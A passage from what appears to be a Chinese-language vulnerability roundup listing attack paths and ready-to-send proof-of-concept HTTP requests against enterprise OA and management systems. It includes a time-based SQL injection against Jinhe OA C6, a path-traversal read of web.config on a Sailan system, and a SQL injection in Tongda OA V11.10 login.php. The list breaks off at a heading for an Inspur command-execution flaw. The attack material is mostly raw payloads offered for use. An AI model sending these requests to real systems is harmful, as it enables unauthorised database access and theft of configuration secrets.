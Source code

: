 攻击路径：/services/WorkPlanService  
  
poc：文章后附有  
  
5.金和OA C6 GeneralXmlhttpPage.aspx SQL注入漏洞  
  
攻击路径: /C6/Jhsoft.Web.appraise/AppraiseScoreUpdate.aspx/GeneralXmlhttpPage.aspx/  
  
poc：  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">GET /C6/Jhsoft.Web.appraise/AppraiseScoreUpdate.aspx/GeneralXmlhttpPage.aspx/?id=%27and%28select%2B1%29%3E0waitfor%2F%2A%2A%2Fdelay%270%3A0%3A4 HTTP/1.1  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host:   </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Upgrade-Insecure-Requests: 1  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Encoding: gzip, deflate  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Language: zh-CN,zh;q=0.9  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Cookie: ASP.NET\_SessionId=lm3qrfg3b3khewr0yiy2r3oa  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Connection: close </span></section></td></tr></tbody></table>  
6.赛蓝企业管理系统 GetJSFile 任意文件读取漏洞  
  
攻击路径：/Utility/GetJSFile  
  
poc：  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">GET /Utility/GetJSFile?filePath=../web.config HTTP/1.1</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host: </span></section><section style="line-height: normal;"><span style="font-size: 12px;">User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept: */*</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Encoding: gzip, deflate, br</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7</span></section><section style="line-height: normal;"><span style="font-size: 12px;">Connection: close</span></section></td></tr></tbody></table>  
7.通达OA V11.10 login.php SQL注入漏洞  
  
攻击路径：/ispirit/interface/login.php  
  
poc：  
<table><tbody><tr><td width="557" valign="top" style="word-break: break-all;"><section style="line-height: normal;"><span style="font-size: 12px;">POST /ispirit/interface/login.php HTTP/1.1  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10\_12\_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.855.2 Safari/537.36  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Type: application/x-www-form-urlencoded  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Host:   </span></section><section style="line-height: normal;"><span style="font-size: 12px;">Content-Length: 107  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">  </span></section><section style="line-height: normal;"><span style="font-size: 12px;">name=123&amp;pass=123&amp;\_SERVER[REMOTE\_ADDR]=1&#39;,&#39;10&#39;,(select+@`,&#39;`+or+if(1%3d1,1,(select+~0%2b1))+limit+0,1))--+&#39;  </span></section></td></tr></tbody></table>  
8.  
浪潮云财务系统 bizintegrationwebservice 命令执行漏洞  
  